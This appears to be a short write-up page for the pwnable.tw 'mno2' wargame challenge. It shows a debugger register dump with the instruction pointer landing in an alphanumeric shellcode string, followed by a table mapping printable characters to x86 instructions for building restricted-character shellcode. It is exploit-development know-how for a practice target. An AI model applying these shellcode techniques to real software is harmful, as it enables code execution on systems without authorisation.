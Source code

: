 # pwnable.tw-mno2

EAX: 0x324f6e4d ("F5MnO25HoO2PYHoO2CCCSXeKKK", 'N' <repeats 15 times>)

EBX: 0x0

ECX: 0x0

EDX: 0x804889f --> 0x4f004e ('N')

ESI: 0xf7fb7000 --> 0x1b2db0

EDI: 0xf7fb7000 --> 0x1b2db0

EBP: 0xffffd528 --> 0x0

ESP: 0xffffd4ec --> 0x80487ea (<main+169>:      mov    DWORD PTR [esp],0x0)

EIP: 0x324f6e4d ("F5MnO25HoO2PYHoO2CCCSXeKKK", 'N' <repeats 15 times>)

--------------------------------------------------------------------------
1He 			xor [eax+0x65], ecx

1Hf			xor [eax+0x66], ecx

5xxxx			xor eax, 4bytes

0x8048890:      "H"		dec eax

0x804889b:      "B"		inc edx

0x804889d:      "C"		inc ebx

0x804889f:      "N"		dec esi

0x80488a1:      "O"		dec edi

0x80488a3:      "F"		inc esi

0x80488b4:      "P"		push eax

0x80488b6:      "S"		push ebx

0x80488be:      "K"		dec ebx

0x80488c9:      "V"		push edi

0x80488f8:      "Y"		pop ecx

0x8048921:      "I"		dec ecx

0x8048923:      "Xe"		pop eax; gs

0x8048929:      "Ba"		inc edx; popa

0x8048961:      "Re"	push edx; gs

0x804898e:      "Th"		push esp; push 4bytes

0x8048994:      "U"		push ebp

0x80489c0:      "Bh"		inc edx; push 4bytes

